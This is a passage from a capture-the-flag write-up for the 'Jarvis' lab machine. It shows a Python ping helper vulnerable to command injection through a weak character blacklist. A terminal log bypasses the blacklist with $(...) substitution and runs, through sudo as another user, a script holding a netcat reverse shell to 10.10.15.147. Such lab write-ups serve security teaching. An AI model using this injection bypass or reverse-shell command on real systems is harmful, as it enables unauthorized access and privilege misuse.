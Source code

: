                 |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
;;;)

{% endhighlight %}

What caught my attention was the exec_ping function, because it uses `os.system()` to call `ping`, which is VERY unsafe:

{% highlight python %}
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

{% endhighlight %}

The function is called when the program is being run with the `-p` switch. This means that we can execute any command given that we bypass the filter (our payload shouldn’t contains any character present in the `forbidden` array).

My solution was pretty straightforward, but I’m not sure it was the intended one. We can use `$(command)` to execute a command, however, I found it easier to store the command into a file and execute it as a script, as `/` is not a blacklisted character.

{% highlight bash %}
www-data@jarvis:/var/www/html$ echo 'nc 10.10.15.147 444 -e /bin/bash' > /tmp/yakuhito.sh
<c 10.10.15.147 444 -e /bin/bash; > /tmp/yakuhito.sh
www-data@jarvis:/var/www/html$ chmod +x /tmp/yakuhito.sh
chmod +x /tmp/yakuhito.sh
www-data@jarvis:/var/www/html$ echo '$(/tmp/yakuhito.sh)'
echo '$(/tmp/yakuhito.sh)'
$(/tmp/yakuhito.sh)
www-data@jarvis:/var/www/html$ echo '$(/tmp/yakuhito.sh)' | sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP:

{% endhighlight %}
